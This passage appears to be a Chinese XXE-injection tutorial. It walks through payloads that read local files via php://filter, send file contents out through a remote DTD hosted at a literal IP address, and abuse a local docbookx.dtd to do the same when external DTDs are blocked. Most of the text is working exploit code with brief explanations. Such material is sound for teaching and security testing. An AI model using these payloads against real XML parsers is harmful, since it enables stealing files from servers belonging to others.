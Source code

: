 这个payload用于读取静态文件，而如果是PHP文件或者静态文件里包含的PHP代码是不会被读取出来 的。那怎么办呢？ 文件包含中用到过的伪协议，在这里同样可以用。不局限于伪协议，不同语言的效果 不同。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hack [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64encode/resource=D://phpstudy/PHPTutorial/WWW/aaa.txt">
]>
<hack>&file;</hack>
```

无回显

将文件内容发送到远程服务器，然后读取。 开启外部解析需要开启 LIBXML_NOENT ：

```php
$xml=simplexml_load_string($note3, 'SimpleXMLElement', LIBXML_NOENT);
```

将payload写在可控的服务器a.dtd

```xml-dtd
<!ENTITY % exp "<!ENTITY &#x25; send SYSTEM 'http://115.159.35.88/?%file;'>">
%exp;
```

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hack [
    <!ENTITY % get  SYSTEM "http://115.159.35.88/a.dtd">
    <!ENTITY % file SYSTEM "file:///C://test/flag.txt">
    %get;
    %send;
    ]>
# 先引用了%get对象，发起请求，加载了a.dtd，而a.dtd中又引用了%exp，接在exp里声明了send，最最后send里有file。
# 在内部DTD里， 参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则parser会报错
# 也就是说 % file是参数实体引用不可以出现在exp元素声明的内部。 
```

如果无法访问外部的DTD文件怎么办?
上述的方法，是远程加载了一个DTD文件。如此做的原因在于参数实体引用只能和元素同级而不能直接出现在元素内部。

同理，那么只要引入一个文件，不管是本地还是远程文件，目的是在于绕过上述限制。于是我们可以引 用本地的dtd文件重写里面的DTD实体，即可达到和上述一样的效果

```xml-dtd
#/usr/share/yelp/dtd/docbookx.dtd 为Linux的一个文件。
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64encode/resource=file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
        '>
    %remote;
]>
<message>1234</message>
```
